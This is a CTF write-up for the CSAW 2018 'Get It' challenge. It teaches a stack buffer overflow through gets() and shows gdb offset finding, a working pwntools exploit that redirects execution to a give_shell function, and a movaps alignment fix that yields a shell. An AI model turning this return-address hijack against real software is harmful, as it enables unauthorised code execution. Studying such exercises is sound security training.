 # Csaw Quals 2018 Get It

Let's take a look at the binary:

```
$    file get_it
get_it: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, for GNU/Linux 2.6.32, BuildID[sha1]=87529a0af36e617a1cc6b9f53001fdb88a9262a2, not stripped
$    pwn checksec get_it
[*] '/Hackery/pod/modules/bof_callfunction/csaw18_getit/get_it'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
$    ./get_it
Do you gets it??
15935728
```

So we can see that we are given a `64` bit binary, with a Non-Executable stack (that mitigation will be covered later). When we run it, we see that it prompts us for input. When we take a look at the main function in Ghidra, we see this:

```
undefined8 main(void)

{
  char input [32];
 
  puts("Do you gets it??");
  gets(input);
  return 0;
}
```

So we can see that it makes a call to the `gets` function with the char buffer `input` as an argument. This is a bug. The thing about the `gets` function, is that there is no size restriction on the amount of data it will scan in. It will just scan in data until it gets either a newline character or EOF (or something causes it to crash). Because if this we can write more data to `input` than it can hold (which it can hold `32` bytes worth of data) and we will overflow it. The data that we overflow will start overwriting subsequent things in memory. Looking at this function we don't see any other variables that we can overwrite. However we can definitely overwrite the saved return address.

When a function is called, two values that are saved are the base pointer (points to the base of the stack) and instruction pointer (pointing to the instruction following the call). This way when the function is done executing and returns, code execution can pick up where it left off and the code knows where the stack is. These values make up the saved base pointer and saved return address, and in x64 the saved base pointer is stored at `rbp+0x0` and the saved instruction pointer is stored at `rbp+0x8`.

So when the `ret` instruction, the saved instruction pointer (stored at `rbp+0x8`) is executed. This address is on the stack, and we can reach it with the `gets` function call. So we will just overwrite it with a value we want, and we will decide what code the program executes. The offset between the start of our input and the return address is `40` bytes. The first `32` bytes come from the `input` char buffer we have to fill up. After that we can see there are no variables between `input` and the saved base pointer (if there was a stack canary that would be a different story, but I'll save that for later). After that we have `8` bytes for the saved base pointer, then we reach the saved instruction pointer. We can also see this in memory with gdb:

```
gef➤  disas main
Dump of assembler code for function main:
   0x00000000004005c7 <+0>:    push   rbp
   0x00000000004005c8 <+1>:    mov    rbp,rsp
   0x00000000004005cb <+4>:    sub    rsp,0x30
   0x00000000004005cf <+8>:    mov    DWORD PTR [rbp-0x24],edi
   0x00000000004005d2 <+11>:    mov    QWORD PTR [rbp-0x30],rsi
   0x00000000004005d6 <+15>:    mov    edi,0x40068e
   0x00000000004005db <+20>:    call   0x400470 <puts@plt>
   0x00000000004005e0 <+25>:    lea    rax,[rbp-0x20]
   0x00000000004005e4 <+29>:    mov    rdi,rax
   0x00000000004005e7 <+32>:    mov    eax,0x0
   0x00000000004005ec <+37>:    call   0x4004a0 <gets@plt>
   0x00000000004005f1 <+42>:    mov    eax,0x0
   0x00000000004005f6 <+47>:    leave  
   0x00000000004005f7 <+48>:    ret    
End of assembler dump.
gef➤  b *0x4005f1
Breakpoint 1 at 0x4005f1
gef➤  r
Starting program: /Hackery/pod/modules/bof_callfunction/csaw18_getit/get_it
Do you gets it??
15935728
```

We set a breakpoint for right after the `gets` call:

```
Breakpoint 1, 0x00000000004005f1 in main ()
gef➤  i f
Stack level 0, frame at 0x7fffffffdea0:
 rip = 0x4005f1 in main; saved rip = 0x7ffff7a05b97
 Arglist at 0x7fffffffde90, args:
 Locals at 0x7fffffffde90, Previous frame's sp is 0x7fffffffdea0
 Saved registers:
  rbp at 0x7fffffffde90, rip at 0x7fffffffde98
gef➤  x/g $rbp+0x8
0x7fffffffde98:    0x00007ffff7a05b97
gef➤  search-pattern 15935728
[+] Searching '15935728' in memory
[+] In '[heap]'(0x602000-0x623000), permission=rw-
  0x602670 - 0x602678  →   "15935728"
[+] In '[stack]'(0x7ffffffde000-0x7ffffffff000), permission=rw-
  0x7fffffffde70 - 0x7fffffffde78  →   "15935728"
```

So we can see that the return address is stored at `0x7fffffffde98`. Our input begins at `0x7fffffffde70`. This gives us a `0x7fffffffde98 - 0x7fffffffde70 = 0x28` byte offset (`0x28 = 40`). So we just have to write `40` bytes worth of input and we can write over the return address. That address will be executed when the `ret` instruction is executed, giving us code execution. The question is now what do we want to execute? Looking through the list of functions in Ghidra, we see that there is a `give_shell` function:

```
void give_shell(void)

{
  system("/bin/bash");
  return;
}
```

This function looks like it just gives us a shell by calling `system("/bin/bash")`. In the assembly viewer we can see that it starts at `0x4005b6`. So we can just call the `give_shell` function by writing over the return address with `0x4005b6` and that should give us a shell. Putting it all together, we get the following exploit:

```
from pwn import *

target = process("./get_it")
gdb.attach(target, gdbscript = 'b *0x4005f1')

payload = b""
payload += b"0"*40 # Padding to the return address
payload += p64(0x4005b6) # Address of give_shell in least endian, will be new saved return address

# Send the payload
target.sendline(payload)

# Drop to an interactive shell to use the new shell
target.interactive()
```

When we run it, we see the below text. This will crash on the `system("/bin/bash")` if you are running it on a more modern version of libc. 

To learn more about the fault, use `dmesg | tail` to find information: 

```
[32831.741915] traps: get_it[18795] general protection fault ip:7f36c59e92d6 sp:7fff53ea3598 error:0 in libc-2.27.so[7f36c599a000+1e7000]
[32831.864442] get_it[18794]: segfault at 0 ip 0000000000000000 sp 00007fff53ea3748 error 14 in get_it[400000+1000]
[32831.864450] Code: Bad RIP value.

```

Verify that you are successfully calling the `give_shell` function using the same method you did last time. Once you verify it, we are going to fix the problem instead of ignoring it like last time.

As mentioned last time, the problem is quite well known as "The Movaps Problem":

The x86 `movaps` instruction will trigger a general protection fault when operating on unaligned data, aka any time it isn't 16 byte aligned prior to a call. This means we need to find a way to align bytes in a way that libc doesn't dislike. There are multiple ways to do this that you'll get better at, but for now the easiest way is to just jump deeper into the function instead of the first instruction... we don't need to set up the stack frame properly anyway! 

```
gef➤  disass give_shell 
Dump of assembler code for function give_shell:
   0x00000000004005b6 <+0>:	push   rbp
   0x00000000004005b7 <+1>:	mov    rbp,rsp
   0x00000000004005ba <+4>:	mov    edi,0x400684
   0x00000000004005bf <+9>:	call   0x400480 <system@plt>
   0x00000000004005c4 <+14>:	nop
   0x00000000004005c5 <+15>:	pop    rbp
   0x00000000004005c6 <+16>:	ret    
End of assembler dump.
```

Let's go with 0x04005ba, which is a 4 away from *give_shell+0.

Replace the address of give_shell with that address for *give_shell+4 and run exploit.py again.

```
devey@m171458:~/Documents/github/nightmare/modules/04-Overflows/05-bof_callfunction/csaw18_getit$ python3 exploit.py 
[+] Starting local process './get_it': pid 18007
[*] Switching to interactive mode
Do you gets it??
$ ls
core  exploit.py  get_it  payload  readme.md
$  
```

Just like that we got a shell! Feeling 1337 yet?
